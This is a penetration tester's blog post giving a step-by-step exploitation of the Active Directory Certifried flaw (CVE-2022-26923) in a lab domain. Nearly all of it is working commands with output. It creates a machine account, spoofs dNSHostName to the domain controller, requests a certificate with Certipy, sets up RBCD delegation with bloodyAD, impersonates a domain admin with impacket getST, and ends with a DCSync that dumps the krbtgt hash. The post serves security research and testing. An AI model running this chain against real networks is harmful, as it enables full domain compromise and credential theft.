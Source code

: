 ```yaml
---
layout: post
title:  "bloodyAD and Certifried (CVE-2022-26923)"
author: soka
twitter: pentest_soka
date:   2022-05-11 18:12:00 +0200
categories: ad privesc
tags: ad privesc bloodyad kerberos authentication
---
```

A new ADCS privesc was released: Certifried (CVE-2022-26923) with this [blogpost](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) after Microsoft patched it.
Here is an example on how to exploit this vulnerability with [bloodyAD](https://github.com/CravateRouge/bloodyAD) and PKINIT not supported from Linux.

# Linux

We need to own a computer, either we pwned one or we can create one if `ms-DS-MachineAccountQuota`>0:

{% highlight bash %}
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 getObjectAttributes  'DC=crashlab,DC=local' ms-DS-MachineAccountQuota                     
{
    "ms-DS-MachineAccountQuota": 10
}
{% endhighlight %}

We create a Computer object `cve` in the LDAP:
{% highlight bash %}
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 addComputer cve 'CVEPassword1234*'
Opening domain CRASHLAB...
Successfully added machine account cve$ with password CVEPassword1234*.

{% endhighlight %}

Then we set the attribute `dNSHostName` (empty when we created the object) to match the Domain Controller DNS Hostname: `CRASHDC.crashlab.local`.

{% highlight bash %}
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 setAttribute 'CN=cve,CN=Computers,DC=crashlab,DC=local' dNSHostName '["CRASHDC.crashlab.local"]'
dNSHostName set successfully
{% endhighlight %}

To check if the attribute has been correctly set:
{% highlight bash %}
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 getObjectAttributes 'CN=cve,CN=Computers,DC=crashlab,DC=local' dNSHostName                  
{
    "dNSHostName": "CRASHDC.crashlab.local"
}
{% endhighlight %}

Now we can use [Certipy](https://github.com/ly4k/Certipy) to request a certificate for the computer `cve`:
{% highlight bash %}
# 10.100.10.13 is the ADCS server
> certipy req 'crashlab.local/cve$:CVEPassword1234*@10.100.10.13' -template Machine -dc-ip 10.100.10.12 -ca crashlab-ADCS-CA
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 12
[*] Got certificate with DNS Host Name 'CRASHDC.crashlab.local'
[*] Saved certificate and private key to 'crashdc.pfx'

{% endhighlight %}

Now we'll try to get a TGT using [Certipy](https://github.com/ly4k/Certipy) with the certificate requested above:
{% highlight bash %}
> certipy auth -pfx ./crashdc.pfx -dc-ip 10.100.10.12
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: crashdc$@crashlab.local
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
{% endhighlight %}

PKINIT doesn't seem to work on this AD, let's try RBCD technique with [bloodyAD](https://github.com/CravateRouge/bloodyAD) and its certificate authentication feature:
{% highlight bash %}
> openssl pkcs12 -in crashdc.pfx -out crashdc.pem -nodes
> python bloodyAD.py -d crashlab.local  -c ":crashdc.pem" -u 'cve$' --host 10.100.10.12 setRbcd 'CVE$' 'CRASHDC$'
[+] CVE$ SID is: S-1-5-21-1945936656-2616711065-1665664270-1134             
[+] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity correctly set        
[+] Delegation rights modified successfully!                                                                           
CVE$ can now impersonate users on CRASHDC$ via S4U2Proxy
{% endhighlight %}

Delegation rights are set up, we can now use [impacket](https://github.com/SecureAuthCorp/impacket) `getST.py` to impersonate a Domain admin (`emacron` in our case) on CRASHDC$ and fetch a TGT: 
{% highlight bash %}
> getST.py -spn LDAP/CRASHDC.CRASHLAB.LOCAL -impersonate emacron -dc-ip 10.100.10.12 'crashlab.local/cve$:CVEPassword1234*'                 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation                                                               
                                                                                                                       
[*] Getting TGT for user                                                                                               
[*] Impersonating emacron                                                                                              
[*]     Requesting S4U2self                                                                                            
[*]     Requesting S4U2Proxy
[*] Saving ticket in emacron.ccache

> cp emacron.ccache /tmp/
> export KRB5CCNAME=/tmp/emacron.ccache
{% endhighlight %}

Finally we'll use [impacket](https://github.com/SecureAuthCorp/impacket) `secretsdump.py` to perform a DCSync with the exported TGT:
{% highlight bash %}

> secretsdump.py -user-status -just-dc-ntlm -just-dc-user krbtgt 'crashlab.local/emacron@crashdc.crashlab.local' -k -no-pass -dc-ip 10.100.10.12 -target-ip 10.100.10.12 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:492850f62466ef2bd1f4a56f112e01f1::: (status=Disabled)
[*] Cleaning up...
{% endhighlight %}
